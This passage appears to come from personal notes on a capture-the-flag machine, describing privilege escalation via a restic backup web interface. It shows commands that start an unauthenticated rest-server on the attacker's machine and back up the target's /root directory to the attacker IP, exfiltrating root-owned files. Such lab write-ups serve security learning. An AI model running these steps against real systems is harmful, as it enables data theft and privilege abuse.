 Now we go on the website and enter with credentials:

![Pasted image 20250825134448.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250825134448.png)

We can create a new repo and run backups here.
### GTFObins

We can find a use to obtain root flag and access on [GTFObins](../../../3%20-%20Tags/Hacking%20Tools/GTFObins.md):

```
https://gtfobins.github.io/gtfobins/restic/
```

1. Install rest-server : https://github.com/restic/rest-server/releases/download/v0.14.0/rest-server-0.14.0.tar.gz (extract then `chmod +x rest-server` in the folder);

2. Setup a server to receive the backups:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/Artificial/Root/rest-server_0.14.0_linux_amd64]
└─$ ./rest-server --path /tmp/restic-data --listen :12345 --no-auth
Data directory: /tmp/restic-data
Authentication disabled
Append only mode disabled
Private repositories disabled
Group accessible repos disabled
start server on [::]:12345

\\ after init repo
Creating repository directories in /tmp/restic-data/myrepo init 
```

3. Now we can backup /root to remote, on the site we execute this commands:

```bash
\\ init repo
init -r "rest:http://10.10.14.73:12345/myrepo" --insecure-no-password 

\\ backup /root to remote
-r rest:http://10.10.14.73:12345/myrepo backup /root
```

